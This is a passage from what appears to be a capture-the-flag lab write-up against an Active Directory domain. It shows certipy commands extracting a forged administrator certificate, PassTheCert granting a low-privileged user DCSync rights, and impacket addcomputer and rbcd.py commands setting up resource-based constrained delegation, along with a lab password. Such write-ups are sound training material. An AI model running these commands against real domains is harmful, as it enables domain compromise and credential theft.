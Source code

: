 - Add our created machine account to DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` property to perform resource based delegation `RCBD`
- Modify account's password
- Granting the low privileged user DCSync rights

This can be achieved with PassTheCert script https://github.com/AlmondOffSec/PassTheCert/tree/main/Python ,I'll be going with granting DCsync rights to kelly.hill but first we need to extract the key and cert from pfx file 

```bash
certipy cert -pfx administrator_forged.pfx -nokey -out administrator.crt

certipy cert -pfx administrator_forged.pfx -nocert -out administrator.key
```

<img src="https://i.imgur.com/5IBsavd.png"/>

```bash
python3 /opt/PKINITtools/PassTheCert.py -action modify_user -crt administrator.crt -key administrator.key -target kelly.hill -elevate -domain push.vl -dc-host dc01.push.vl
```

<img src="https://i.imgur.com/zWQydWM.png"/>

Now we can run secretsdump.py with kelly.hill

<img src="https://i.imgur.com/FrbEUes.png"/>
<img src="https://i.imgur.com/HFDe3hp.png"/>
# Un-Intended Way through Resource Based Delegation (RBCD)

From bloodhound we can see kelly has `AllExtendedRights` and `WriteAccountRestrictions` on MS01, which means that we can read all properties on MS01 and we can edit `msDS-AllowedToActOnBehalfOfOtherIdentity` to perform RBCD (Resource based constrained delegation) by having write account restrictions rights

<img src="https://i.imgur.com/0J5mHlg.png"/>

First check if there's machine quota available to us in order to create a computer object

<img src="https://i.imgur.com/VMeMGoW.png"/>

Adding computer object with `addcomputer` from impacket

```bash
addcomputer.py -dc-ip 10.10.233.101 -computer-pass TestPassword321 -computer-name UwU push.vl/kelly.hill:'ShinraTensei!'
```

<img src="https://i.imgur.com/X6mArpb.png"/>
And now adding our created machine account in msDS-AllowedToActOnBehalfOfOtherIdentity property of MS01 to impersonate users on that machine

```bash
rbcd.py -action write -delegate-to "MS01$" -delegate-from "UwU$" -dc-ip 10.10.233.101 push.vl/kelly.hill:'ShinraTensei!'
```
